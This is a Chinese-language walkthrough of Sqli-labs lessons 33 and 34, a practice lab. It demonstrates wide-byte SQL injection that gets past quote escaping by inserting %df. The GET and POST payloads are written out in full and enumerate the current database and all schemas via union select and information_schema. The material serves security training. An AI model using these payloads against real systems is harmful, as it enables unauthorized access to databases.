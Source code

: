 
# Sqli-labs-Less-33
![](https://img-blog.csdnimg.cn/202007251102143.png#crop=0&crop=0&crop=1&crop=1&id=r4m4s&originHeight=97&originWidth=1072&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**判断注入点**<br />http://www.web.com/sql/Less-33/?id=1'<br />查看提醒被转义<br />![](https://img-blog.csdnimg.cn/2020072511033724.png#crop=0&crop=0&crop=1&crop=1&id=vRDDC&originHeight=73&originWidth=510&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**加入%df**<br />http://www.web.com/sql/Less-33/?id=1%df'<br />报错，进行注释<br />http://www.web.com/sql/Less-33/?id=1%df'--+<br />成功<br />![](https://img-blog.csdnimg.cn/20200725110439841.png#crop=0&crop=0&crop=1&crop=1&id=ZdtVj&originHeight=157&originWidth=434&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看当前库**<br />http://www.web.com/sql/Less-33/?id=1%df' union select 1,2,database()--+<br />![](https://img-blog.csdnimg.cn/20200725110744528.png#crop=0&crop=0&crop=1&crop=1&id=c8PNA&originHeight=144&originWidth=329&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有库**<br />http://www.web.com/sql/Less-33/?id=1%df'union select 1,2,group_concat(schema_name) from information_schema.schemata--+<br />![](https://img-blog.csdnimg.cn/20200725110833521.png#crop=0&crop=0&crop=1&crop=1&id=Vk9Xr&originHeight=144&originWidth=1220&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**以下步骤与Sqli-labs-Less-32相同，不进行详细叙述**


# Sqli-labs-Less-34
![](https://img-blog.csdnimg.cn/20200725111620797.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=rMIHo&originHeight=389&originWidth=1076&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**通过界面显示可知需要使用post进行注入，使用burp进行抓包**<br />![](https://img-blog.csdnimg.cn/20200725112247564.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=Qp3QK&originHeight=347&originWidth=554&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查找注入点**<br />uname=a' or 1=1&passwd=admin&submit=Submit<br />提示显示进行了转义<br />![](https://img-blog.csdnimg.cn/20200725112412260.png#crop=0&crop=0&crop=1&crop=1&id=lXl7F&originHeight=57&originWidth=387&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**加入%df**<br />uname=a%df' or 1=1&passwd=admin&submit=Submit<br />报错<br />![](https://img-blog.csdnimg.cn/20200725114118587.png#crop=0&crop=0&crop=1&crop=1&id=qGGDd&originHeight=49&originWidth=773&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**使用#号进行注释**<br />uname=a%df' or 1=1#&passwd=admin&submit=Submit<br />![](https://img-blog.csdnimg.cn/20200725114146402.png#crop=0&crop=0&crop=1&crop=1&id=tnG6K&originHeight=119&originWidth=335&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
成功说明存在注入

**查看列数**<br />uname=a%df' order by 2#&passwd=admin&submit=Submit<br />使用3报错，使用2正确，说明有2列<br />![](https://img-blog.csdnimg.cn/2020072511563689.png#crop=0&crop=0&crop=1&crop=1&id=ZQblM&originHeight=18&originWidth=278&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看当前库**<br />uname=a%df' union select 1,database()#&passwd=admin&submit=Submit<br />![](https://img-blog.csdnimg.cn/20200725115744429.png#crop=0&crop=0&crop=1&crop=1&id=Q0Lvj&originHeight=98&originWidth=324&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
